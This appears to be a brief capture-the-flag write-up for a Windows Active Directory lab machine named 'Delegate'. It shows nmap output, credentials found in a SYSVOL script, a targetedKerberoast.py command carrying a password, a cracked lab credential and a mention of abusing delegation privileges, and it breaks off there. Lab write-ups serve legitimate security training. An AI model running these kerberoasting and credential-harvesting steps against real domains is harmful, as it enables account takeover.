




# Enumeration
Enumerating ports:
```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-04-07 05:40:06Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: delegate.vl0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: delegate.vl0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-04-07T05:40:56+00:00; -23h59m43s from scanner time.
| ssl-cert: Subject: commonName=DC1.delegate.vl
| Not valid before: 2024-04-06T05:35:55
|_Not valid after:  2024-10-06T05:35:55
| rdp-ntlm-info: 
|   Target_Name: DELEGATE
|   NetBIOS_Domain_Name: DELEGATE
|   NetBIOS_Computer_Name: DC1
|   DNS_Domain_Name: delegate.vl
|   DNS_Computer_Name: DC1.delegate.vl
|   DNS_Tree_Name: delegate.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-04-07T05:40:14+00:00
Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows
5985/tcp  open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf     .NET Message Framing
49664/tcp open  msrpc      Microsoft Windows RPC
49665/tcp open  msrpc      Microsoft Windows RPC
49666/tcp open  msrpc      Microsoft Windows RPC
49667/tcp open  msrpc      Microsoft Windows RPC
49669/tcp open  msrpc      Microsoft Windows RPC
49672/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc      Microsoft Windows RPC
49685/tcp open  msrpc      Microsoft Windows RPC
49689/tcp open  msrpc      Microsoft Windows RPC
49692/tcp open  msrpc      Microsoft Windows RPC
63466/tcp open  msrpc      Microsoft Windows RPC

```
Checking SMB we have read access on SYSVOL share. 
A file called users.bat is present with credentials:

Now using bloodhound we discover a path
Using targetedkerberoast.py:
```
targetedKerberoast.py -v -d 'delegate.vl' -u 'A.Briggs' -p 'P4ssw0rd1#123'
```

Now using hashcat we crack the password:
`N.Thompson: KALEB_2341`
We have delegation privileges:

Now using [[SeEnableDelegationPrivilege]] we can get the password hashes:
